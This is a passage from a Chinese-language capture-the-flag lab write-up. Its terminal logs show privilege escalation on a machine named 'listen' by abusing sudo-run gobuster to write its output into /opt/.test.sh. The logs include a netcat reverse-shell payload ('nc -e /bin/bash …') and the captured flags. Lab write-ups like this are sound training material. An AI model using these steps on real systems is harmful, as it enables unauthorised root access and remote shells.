  

>行吧，这个密码得跑程序
>

```
www-data@listen:~/html/wordpress$ su -  welcome 
Password: 
$ bash
welcome@listen:~$ id
uid=1001(welcome) gid=1001(welcome) groups=1001(welcome)
welcome@listen:~$ 
```


```
welcome@listen:/tmp$ cat output.txt 
/a (Status: 200)
welcome@listen:/tmp$ sudo -u root /usr/bin/gobuster -w ay -u http://192.168.56.110 -q -o output.txt 
/a (Status: 200)
welcome@listen:/tmp$ cat output.txt 
/a (Status: 200)
welcome@listen:/tmp$ sudo -u root /usr/bin/gobuster -w ay -u http://192.168.56.110 -q -o output.txt 
/a (Status: 200)
welcome@listen:/tmp$ rm -r a
a.txt  ay     
welcome@listen:/tmp$ cat a.txt 
welcome@listen:/tmp$ rm -r a.txt 
welcome@listen:/tmp$ rm -r ay 
welcome@listen:/tmp$ touch dom
welcome@listen:/tmp$ nano dom 
welcome@listen:/tmp$ cat dom 
/tmp/b
welcome@listen:/tmp$ sudo -u root /usr/bin/gobuster -w dom -u http://192.168.56.110 -q -o output.txt 
//tmp/b (Status: 200)
welcome@listen:/tmp$ nano dom 
welcome@listen:/tmp$ vim b 
bash: vim: command not found
welcome@listen:/tmp$ nano b 
welcome@listen:/tmp$ nano b 
welcome@listen:/tmp$ y
bash: y: command not found
welcome@listen:/tmp$ nano dom 
welcome@listen:/tmp$ sudo -u root /usr/bin/gobuster -w dom -u http://192.168.56.110 -q -o output.txt 
2025/01/24 09:43:57 [!] unable to connect to http://192.168.56.110/: Get http://192.168.56.110/: dial tcp 192.168.56.110:80: connect: connection refused
welcome@listen:/tmp$ sudo -u root /usr/bin/gobuster -w dom -u http://192.168.56.110 -q -o output.txt 
welcome@listen:/tmp$ cat output.txt 
welcome@listen:/tmp$ sudo -u root /usr/bin/gobuster -w dom -u http://192.168.56.110 -q -o output.txt 
welcome@listen:/tmp$ sudo -u root /usr/bin/gobuster -w dom -u http://192.168.56.110 -q -o output.txt 
/tmp/b# (Status: 200)
welcome@listen:/tmp$ sudo -u root /usr/bin/gobuster -w dom -u http://192.168.56.110 -q -o /opt/.test.sh 
/tmp/b# (Status: 200)
welcome@listen:/tmp$ cat b 
nc -e /bin/bash 192.168.56.110 1234
welcome@listen:/tmp$ nc -e
nc: option requires an argument -- 'e'
nc -h for help
welcome@listen:/tmp$ chmod +x b 
welcome@listen:/tmp$ nano dom 
welcome@listen:/tmp$ sudo -u root /usr/bin/gobuster -w dom -u http://192.168.56.110 -q -o /opt/.test.sh 
welcome@listen:/tmp$ sudo -u root /usr/bin/gobuster -w dom -u http://192.168.56.110 -q -o /opt/.test.sh 
2025/01/24 09:49:14 [!] unable to connect to http://192.168.56.110/: Get http://192.168.56.110/: dial tcp 192.168.56.110:80: connect: connection refused
welcome@listen:/tmp$ sudo -u root /usr/bin/gobuster -w dom -u http://192.168.56.110 -q -o /opt/.test.sh 
/tmp/b # (Status: 200)
welcome@listen:/tmp$ 
```

  


>到这里就解决了，这个的虽然是我做出来的，但是这个方案是出题在半个月之前整的，所以不过怎么看来我还是有机会独立完成的，上次懦夫模式搞早了哈哈哈
>
>userflag:29e0f786e8c90b3ce82e00de0ec7e7d3
>
>rootflag:b6a1a0de4223ba038327fc9c647701fb
>